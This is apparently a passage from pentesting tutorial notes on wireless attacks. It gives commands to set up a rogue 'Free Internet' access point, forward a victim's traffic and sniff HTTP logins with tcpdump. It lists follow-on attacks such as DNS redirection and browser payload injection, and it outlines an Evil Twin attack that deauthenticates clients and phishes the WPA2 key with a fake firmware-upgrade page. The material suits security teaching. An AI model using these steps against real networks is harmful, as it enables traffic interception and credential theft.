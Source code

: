 > Troubleshooting: brctl - command not found

```
apt-get install bridge-utils
```

Assign an IP address to the bridge interface:
```
ifconfig br0 <ip_address> up
```

> the IP depends on your network config

Enable IP packet forwarding:
```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

- Try to connect from your victim client through the new **Free Internet** AP. 

> At this point, all of the internet directed traffic from the victim client is already being forwarded through the attack machine.

- Try to browser a website from your victim client.
- Also confirm your attack machine can connect to the internet

Now we can fire up your favorite sniffing tool and start listening on your virtual wireless interface:
```
tcpdump -nvi <interface> tcp port 80 -A
```

> now you can test, log in some account with the victim browser 

You could:
```
 → redirect DNS requests
 → Change web page content
 → harvest user information
 → inject browser-specific payloads to exploit browser vulnerabilities
 → and so on.
```





## Rogue AP: Evil Twin Attack
 → [Wireless Networks Wikipedia](https://en.wikipedia.org/wiki/Evil_twin_(wireless_networks))
- Similar to Rogue AP, with Evil Twin we combine with a bit of social engineering to obtain a WPA2 networks Pre-shared key without the need to conduct a cryptographic attack against the WPA2 protocol itself.

Setup:
```
1. Replicate a known AP ESSID via creation of an AP with hostapd
2. De-authenticate a station that is associated to the **real** AP
3. Station reconnects to **Evil Twin** AP
4. The user, upon launching a browser is presented with a web page over HTTP requesting SSID For an **important Firmware Upgrade**
5. We receive the SSID in plain-text via the hTTP page
```
